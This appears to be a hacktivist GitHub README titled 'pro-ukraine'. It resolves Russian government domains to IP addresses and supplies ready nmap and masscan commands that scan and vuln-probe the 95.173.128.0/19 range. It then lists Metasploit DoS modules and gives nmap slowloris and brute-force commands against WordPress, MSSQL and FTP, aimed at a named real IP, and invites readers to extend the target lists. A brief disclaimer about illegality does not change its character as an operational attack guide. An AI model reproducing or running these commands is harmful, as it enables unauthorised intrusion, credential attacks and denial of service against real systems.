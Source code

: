 # pro-ukraine

![alt text](https://github.com/vikanet/pro-ukraine/blob/main/pro-ukraine.png?raw=true)

# The invasion of Ukraine by Russian troops is a threat to the whole world safety.

My goal is to share news, tools, and ideais that one can use to make a point and step up agains this war.

# There are known Russian government controlled domains, websites, services... under tha following domains:

```
government.ru
duma.gov.ru
kremlin.ru
gov.ru
```

# Anyone can use a tool like `dig` or `nslookup` to check what servers the domains are pointing to:

```
# dig government.ru

;; ANSWER SECTION:
government.ru.          6385    IN      A       95.173.136.168
government.ru.          6385    IN      A       95.173.136.162
government.ru.          6385    IN      A       95.173.136.163
```
```
# dig duma.gov.ru

;; ANSWER SECTION:
duma.gov.ru.            1800    IN      A       95.173.130.41
duma.gov.ru.            1800    IN      A       95.173.130.42
```
```
# dig kremlin.ru

;; ANSWER SECTION:
kremlin.ru.             60      IN      A       95.173.136.71
kremlin.ru.             60      IN      A       95.173.136.72
kremlin.ru.             60      IN      A       95.173.136.70
```
```
# dig gov.ru

;; ANSWER SECTION:
gov.ru.                 1800    IN      A       95.173.128.90
```

**NOTE:** the domains might have DNS load balancers that will share the load over many server and possibly geographically assing the closest server to serve each request. Which means, the IP might not be in Russian territory but in a third-party service provider (like a CDN) somewhere else.

# It is important to ALWAYS confirm the IP address of the target really belongs to the Russian government or not:

There are many sources of this kind of information, for example https://www.nirsoft.net/countryip/ru.html.

Just look for the IP target in the IP ranges assigned to the Russian government:

```
95.173.128.0 | 95.173.159.255 | The Federal Guard Service of the Russian Federation
```

Another great tool is https://ipgeolocation.io/.

```
"ip": 95.173.128.90
"country_name": Russia
"state_prov": Central Federal District
"city": Moscow
"latitude": 55.75501
"longitude": 37.63183
"time_zone": Europe/Moscow
"isp": The Federal Guard Service of the Russian Federation
```

# How to know what ports are open in each target IP exposed to the Internet? Port-scan!

```
nmap -sV -sC -oN scan1.output 95.173.128-159.0-255
nmap -F -oN scan2.output 95.173.128-159.0-255
nmap -T5 -p 80,443 -oN scan3.output 95.173.128-159.0-255
sudo nmap -O -oN scan4.output 95.173.128-159.0-255
sudo masscan 95.173.128.0/19 -p0-443 -oX scan5.output
sudo masscan 95.173.128.0/19 -p443-1000 -oX scan6.output
nmap -Pn --script vuln -oN scan7.output 95.173.128-159.0-255
nmap -sL -oN scan8.output 95.173.128-159.0-255
```

**NOTE:** the output files of the scans abore are in this repo. Skip many hours of waiting... See also **scans.summary** file with the most relevant open ports by IP.

# What tools the Hacktivists are possibly using to sabotage Russian targets?

Hacktivists are attacking the Russian government sites trying to make them offline and to creating a huge amount of traffic in their networks. It is called Dennial-of-Server, or DoS for short.

Pretty much anyone can run a DoS tool to make a particular IP go off line due to too many requests. See a small list of popular tools for DoS attacks:

Metasploit Modules

```
auxiliary/dos/tcp/synflood (Flood the server with SYN packets)
auxiliary/dos/http/slowloris.py (Makes lots of HTTP requests and sends headers periodically to keep the connections open)
auxiliary/dos/http/apache_range_dos.rb (Causes high memory and CPU consumption on Apache 2.0.x through 2.0.64, and 2.2.x through 2.2.19)
auxiliary/dos/http/gzip_bomb_dos.rb (Generates and hosts a 10MB single-round gzip file that decompresses to 10GB)
auxiliary/dos/http/hashcollision_dos.rb (Can cause a web server parsing the POST parameters issued with a request into a hash table to consume hours of CPU with a single HTTP request)
auxiliary/dos/ssl/dtls_changecipherspec.rb (Attack against Datagram TLS in OpenSSL version 0.9.8i and earlier)
auxiliary/dos/ntp/ntpd_reserved_dos.rb (Created an infinite looping of NTP requests between two NTP servers)
auxiliary/dos/dns/bind_tsig.rb (Can crash a DNS server if it is vulnerable to CVE-2016-2776)
```

NMAP

```
nmap 95.173.136.168 --max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true
nmap -sV --script http-wordpress-brute --script-args ‘userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true’ 95.173.136.168
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 95.173.136.168
nmap --script ftp-brute -p 21 95.173.136.168
```

**NOTE:** DoS and DDoS are ilegal pactices in most if not all countries. Do not attempt to do it, it is a crime!

# How do the Hacktivists are able to perform Denial-of-Service attacks without being caught?

The most common way to become anonymous on the internet is by using a VPN or the Tor Network but Hacktivists oftenly use a much bigger tools: Bot Nets

By distributing it increases the demaging power over thousands or even millions of source addresses, making it very difficul to defent against.

# What attack vector a Hacktivist uses agains a target?

Reconaissence is the first step. A simple portscan can reveal what services are behind an IP or a range of IPs. Followed by a more sofisticated fingerprinting to reveal what applications and its versions are behind each exposed (open) port.

# Help needed!

Feel free to suggest new topics, increase the lists of targets, alternative tools, etc.
